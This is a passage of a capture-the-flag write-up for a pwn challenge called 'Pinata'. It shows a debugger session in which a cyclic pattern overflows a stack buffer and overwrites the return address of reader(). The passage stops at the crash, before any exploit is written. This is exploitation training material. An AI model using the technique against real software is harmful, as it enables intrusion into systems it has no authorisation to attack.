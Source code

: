 ### Disassembly ⛏️

The binary indicates that there is `canary`, but trying a big payload, we can see that this is not true.

```gdb
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
pwndbg> r
Starting program: /home/w3th4nds/github/australia/pwn/[Easy] Pinata/challenge/pinata 
██████████████████████████████████
        █
        █
        █
        █
        █       ████
        █      ██████
        █      ██ ██
 ████████████████
███████████████▬ 
  █████████████
  ██ ██  ██ ██
  ██ ██  ██ ██

Scream as much as you can to break the pinata!!

>> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401889 in reader ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────
*RAX  0x7fffffffde00 ◂— 0x6161616161616161 ('aaaaaaaa')
*RBX  0x7fffffffe018 —▸ 0x7fffffffe395 ◂— 'SHELL=/bin/bash'
*RCX  0x4c6440 (_IO_2_1_stdin_) ◂— 0xfbad208b
*RDX  0x1
*RDI  0x4c90e0 (_IO_stdfile_0_lock) ◂— 0x0
*RSI  0x1
 R8   0x0
 R9   0x0
*R10  0x80
*R11  0x246
*R12  0x1
*R13  0x7fffffffe008 —▸ 0x7fffffffe352 ◂— '/home/w3th4nds/github/australia/pwn/[Easy] Pinata/challenge/pinata'
*R14  0x4c26f0 (__preinit_array_start) —▸ 0x401780 (frame_dummy) ◂— endbr64 
*R15  0x1
*RBP  0x6161616161616163 ('caaaaaaa')
*RSP  0x7fffffffde18 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
*RIP  0x401889 (reader+30) ◂— ret 
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────
 ► 0x401889 <reader+30>    ret    <0x6161616161616164>




```